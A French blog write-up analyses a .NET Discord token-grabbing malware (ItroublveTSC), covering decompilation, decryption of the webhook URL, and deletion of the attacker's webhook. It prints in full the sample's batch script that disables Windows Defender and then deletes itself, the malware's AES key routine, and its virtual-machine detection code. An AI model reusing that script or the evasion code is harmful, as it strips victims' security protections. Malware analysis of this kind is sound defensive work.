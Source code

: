 ```yaml
---
title: ItroublveTSC, un Token Grabber discord en .NET
date: 2024-12-31
categories: ['malware']
tags: ['.NET']
author: noderyos
---
```


## 1. Trouver un sample

En cherchant 30sec sur internet j'en ai trouvé un (sous le nom de VoltCrack).

## 2. Identifier le type de fichier

Pour ça j'utilise la commande `file` sous linux :

![](/assets/articles/itroublve/1.png)

On a donc un executable codé en .NET/C#, ce type d'executable est nommé un "Assembly" en réalité on peut le "décompiler" contrairement aux autres executables.

## 3. Analyse du Loader

Je vais utiliser l'outil [dnSpy](https://github.com/dnSpyEx/dnSpy) pour le décompiler (il existe aussi [IlSpy](https://github.com/icsharpcode/ILSpy)). Malheureusement il est obfusqué :

![](/assets/articles/itroublve/2.png)

Mais pas si grave, on va l'uploader sur [app.any.run](https://app.any.run/) pour voir si il envoie des requètes, et on obtient cette requète :

![](/assets/articles/itroublve/3.png)

J'ai beaucoup cherché sur internet car je ne m'attendais pas à le trouver sur github mais ducoup on trouve ça :

![](/assets/articles/itroublve/4.png)

## 4. Génération et analyse d'un sample

Super, maintenant on connait le nom du virus, j'ai donc téléchargé le programme et j'ai créé mon propre virus en desactivant l'obfuscateur, et bingo une fois decompilé on tombe sur du code lisible :

![](/assets/articles/itroublve/5.png)

Dans les ressources on y trouve plusieurs fichiers dont 3 importants:

`idk.Binaries.config` :

```json
{
    "cam": false,
    "files": false,
    "shutdown": false,
    "restart": false,
    "rd": false
}
```     

Visiblement ce que fait le virus (dans ce cas il ne fais pas de screenshot, il n'eteint pas le pc, ne le redemare pas et ne relance pas discord).

`idk.Binaries.whysosad` :

```batch
@echo off
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\MpEngine" /v "MpEnablePus" /t REG_DWORD /d "0" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableOnAccessProtection" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Reporting" /v "DisableEnhancedNotifications" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d "1" /f´
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d "0" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SubmitSamplesConsent" /t REG_DWORD /d "2" /f
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderAuditLogger" /v "Start" /t REG_DWORD /d "0" /fschtasks /Change /TN "Microsoft\Windows\ExploitGuard\ExploitGuard MDM policy Refresh" /Disable
schtasks /Change /TN "Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /Disable
schtasks /Change /TN "Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /Disable
schtasks /Change /TN "Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /Disable
schtasks /Change /TN "Microsoft\Windows\Windows Defender\Windows Defender Verification" /Disable
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run" /v "SecurityHealth" /f
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityHealth" /f
reg delete "HKCR\*\shellex\ContextMenuHandlers\EPP" /f
reg delete "HKCR\Directory\shellex\ContextMenuHandlers\EPP" /f
reg delete "HKCR\Drive\shellex\ContextMenuHandlers\EPP" /f
reg add "HKLM\System\CurrentControlSet\Services\WdBoot" /v "Start" /t REG_DWORD /d "4" /f
reg add "HKLM\System\CurrentControlSet\Services\WdFilter" /v "Start" /t REG_DWORD /d "4" /f
reg add "HKLM\System\CurrentControlSet\Services\WdNisDrv" /v "Start" /t REG_DWORD /d "4" /f
reg add "HKLM\System\CurrentControlSet\Services\WdNisSvc" /v "Start" /t REG_DWORD /d "4" /f
reg add "HKLM\System\CurrentControlSet\Services\WinDefend" /v "Start" /t REG_DWORD /d "4" /f
rem gg
del %0 /f /q
```      

Visiblement un script batch permettant de desactiver Windows Defender (De manière très mal faite).

et pour terminer : `idk.Binaries.RtkBtManServ.exe`

C'est un executable très important pour la suite.

## 5. Analyse du payload

Je relance ensuite la commande `file` sur RtkBtManServ.exe et bingo c'est un `Assembly .NET/C#`, je tente donc de le decompiler et cette fois ci il n'est pas obfusqué. Sur le screen d'au dessus on peut voir une variable nommée `arguments` et qui contient une chaine en base64 visiblement sauf que si je le dechifre je n'obtiens rien de lisible. 
Sauf que nous avons le code de RtkBtManServ, et après quelques minutes de renomage des variables on obtient :

```cs
public static void Main(string[] arg){
    try{
        byte[] bytes = Hook.AES128(Convert.FromBase64String(arg[0]));
        Hook._Santa = new Uri(Encoding.ASCII.GetString(bytes)).AbsoluteUri;
        Hook._Santa = Hook._Santa.Replace("%00", "");
    }catch{
        Hook._Santa = arg[0];
    }
}
public static byte[] AES128(byte[] message){
    byte[] result;
    try{
        result = new AesManaged {
            Key = new byte[]{88,105,179,95,179,135,116,246,101,235,150,231,111,77,22,131},
            IV = new byte[16],
            Mode = CipherMode.CBC,
            Padding = PaddingMode.Zeros
        }.CreateDecryptor().TransformFinalBlock(message, 0, message.Length);
    }
    catch{
        result = null;
    }
    return result;
}
```       

J'ai donc reproduit ce code sur [CyberChef](https://gchq.github.io/CyberChef/) pour voir ce que cela me donne (instance [ici](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)To_Hex('Space',0)AES_Decrypt(%7B'option':'Hex','string':'5869b35fb38774f665eb96e76f4d1683'%7D,%7B'option':'Hex','string':'0000000000000000000000000000000'%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)Find_/_Replace(%7B'option':'Regex','string':'%5C%5Cx00'%7D,'',true,false,false,false)&input=WmhYbDM5QmxoUDg0K1k0a3VyQTh3cGVoeHhxQTBYMjJJTVlaNlZwaXFzN0MvL2V4WlBSWWs0aWZ3OGg4OUtpdUNhSmlxZkh4YUxOQjFMY3Z1djlsTk1EV21xN2I4Wk9xR1VmWFY0WnpSMGNteTF4VWVIcUpacEhvcTh0OTBYZjdaeGZwKzRRNmIzdTA4RnE0MkY4bzh3WmpSVk9LbjJza0hscWl0S1M0RWtnPQ)) et j'obtiens ça :

![](/assets/articles/itroublve/6.png)

On a donc désormais un lien de webhook discord (Un webhook discord permet à un programme d'envoyer des messages sur discord de manière automatique). Mais malheureusement je ne peux pas récupérer les arguments passés au programme sur le sample qu'on est en train d'analyser :(, je fais donc ce que je sais faire de mieux, lancer le virus dans une machine virtuelle et utiliser Fiddler pour récupérer le lien du webhook, sauf que je fais face à une erreur, qui a première vue est une erreur .NET sauf que si on regarde le code du virus que j'ai généré moi on se rend compte que ce message a été volontairement affiché quand il détecte qu'il s'aggit d'une VM, qu'il verifie avec ce code (renommé et reformaté) :

```cs
using (ManagementObjectSearcher mOS = new ManagementObjectSearcher("Select * from Win32_ComputerSystem")) {
    using (ManagementObjectCollection mOC = mOS.Get()) {
        foreach (ManagementBaseObject mBO in mOC) {
            string manufacturerName = mBO["Manufacturer"].ToString().ToLower();
            if ((manufacturerName == "microsoft corporation" && mBO["Model"].ToString().ToUpperInvariant().Contains("VIRTUAL"))
                    || manufacturerName.Contains("vmware")
                    || mBO["Model"].ToString().ToLower() == "virtualbox") {
                VMChecker.isVM = true;
                return;
            }
        }
    }
}
```

Pour contourner ça, il suffit d'ouvrir le .vmx de la VM (sous VMWare) et ajouter cette ligne : `SMBIOS.reflecthost = "TRUE"` afin de simuler l'ordinateur hôte et effectivement ça marche car je n'ai plus ce message d'erreur. Je retente donc de capturer les requètes http/https avec Fiddler et j'y arrive correctement. Il nous reste plus qu'a faire supprimer ce webhook pour que la personne qui a créé le virus ne puisse plus voler d'informations: Si on se réfère à la documentation de l'api de Discord il suffit d'enyoyer une requète de type `DELETE` sur l'URL trouvée. Je fais ça et le retour de la requète `GET` passe de ça

![](/assets/articles/itroublve/7.png)

à ça

![](/assets/articles/itroublve/8.png)

(je n'ai plus le lien exact du webhook donc je l'ai reproduit avec mon propre lien pour la démo)
